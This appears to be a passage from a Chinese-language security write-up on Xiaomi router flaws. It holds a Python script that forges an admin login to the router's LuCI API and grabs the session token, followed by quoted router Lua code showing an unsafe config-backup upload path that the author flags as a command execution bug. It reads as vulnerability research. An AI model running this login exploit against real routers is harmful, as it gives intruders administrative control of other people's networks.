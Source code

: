 ```
    m.update((nonce + account_str).encode('utf-8'))
    return m.hexdigest()

mac = get_mac()
account_str = get_account_str()

nonce = create_nonce(mac)
password = calc_password(nonce, account_str)
data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login", 
    data = data, 
    headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
    proxies=proxies)

stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
print("stok="+stok)

```

![](https://ultramangaia.github.io/img/xiaomi/3.png)

### [](#命令执行漏洞 "命令执行漏洞")命令执行漏洞

在审计 lua 代码过程中，发现备份配置文件是`tar.gz`格式的，在恢复备份配置文件时，直接通过`tar -xzf`解压到`/tmp`目录，在`/usr/lib/lua/luci/controller/api/misystem.lua`中，

```
function cUpload()
    local LuciFs = require("luci.fs")
    local XQBackup = require("xiaoqiang.module.XQBackup")
    local code = 0
    local canupload = true
    local uploadFilepath = "/tmp/cfgbackup.tar.gz"
    local fileSize = tonumber(LuciHttp.getenv("CONTENT_LENGTH"))
    if fileSize > 102400 then
        canupload = false
    end
    
    LuciHttp.setfilehandler(
        function(meta, chunk, eof)
            if canupload then
                if not fp then
                    if meta and meta.name == "image" then
                        fp = io.open(uploadFilepath, "w")
                    end
                end
                if chunk then
                    fp:write(chunk)
                end
                if eof then
                    fp:close()
                end
            else
                code = 1630
            end
        end
    )
    if LuciHttp.formvalue("image") and fp then
        code = 0
    end
    local result = {}
```